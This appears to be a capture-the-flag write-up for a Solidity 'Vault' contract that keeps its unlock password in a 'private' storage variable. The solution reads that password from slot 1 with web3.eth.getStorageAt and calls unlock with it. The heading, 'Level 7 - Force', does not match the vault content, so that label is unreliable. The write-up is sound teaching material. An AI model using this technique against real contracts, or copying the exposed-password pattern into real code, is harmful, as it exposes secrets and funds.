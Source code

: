 # Level 7 - Force

### Objective

The objective of this level is as follows:

1. Unlock the vault

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

### Solution

In this level, we exploit the fact that all unhashed storage (including `private` variables) can be accessed by determining their slot number.

We can read the password using the following:

```
password = await web3.eth.getStorageAt(contract.address, 1)

```

Next, we unlock the vault with the password:

```
await contract.unlock(password)

```

Finally, we can verify that the vault is unlocked:

```
await contract.locked() === false

```

Done!

